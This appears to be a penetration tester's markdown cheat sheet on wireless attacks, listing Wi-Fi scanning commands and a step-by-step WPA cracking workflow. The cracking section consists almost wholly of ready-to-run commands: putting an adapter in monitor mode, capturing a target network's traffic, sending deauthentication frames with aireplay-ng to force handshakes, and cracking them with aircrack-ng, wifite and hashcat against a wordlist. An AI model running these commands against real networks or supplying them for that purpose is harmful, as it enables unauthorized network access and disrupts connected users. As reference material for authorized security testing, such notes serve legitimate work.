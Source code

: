 # Wireless attacks

[back](readme.md)

## Wireless scanning

### Windows

```
https://www.nirsoft.net/utils/wireless_network_view.html
```

### Linux

#### kismet

```
kismet -c <mon_interface>
```

#### airodump-ng

```
airodump-ng <mon_interface>

# press [SPACE] to pause scanning
# press [TAB] to select wireless network
# press [S] for sorting
# press [M] for color coding a network and it's clients
```

## WPA cracking 

### Aircrack-ng

```
airmon-ng start <interface>
airodump-ng <interface>
airodump-ng --bssid <bssid> -c <channel> --write <out> <interface>
aireplay-ng --deauth 10 -a <bssid of AP> <interface>
aircrack-ng <cap file> -w <wordlist>
```

### Wifite

```
sudo wifite -wpa -mac --skip-crack --wpat 60 --wpadt 10 --no-wps

# more info
https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2

# converting from handshake to crackable hash
https://hashcat.net/cap2hccapx/

.\hashcat64.exe -m 2500 .\handshakes\? ..\..\wordlists\rockyouplus.wordlist
```

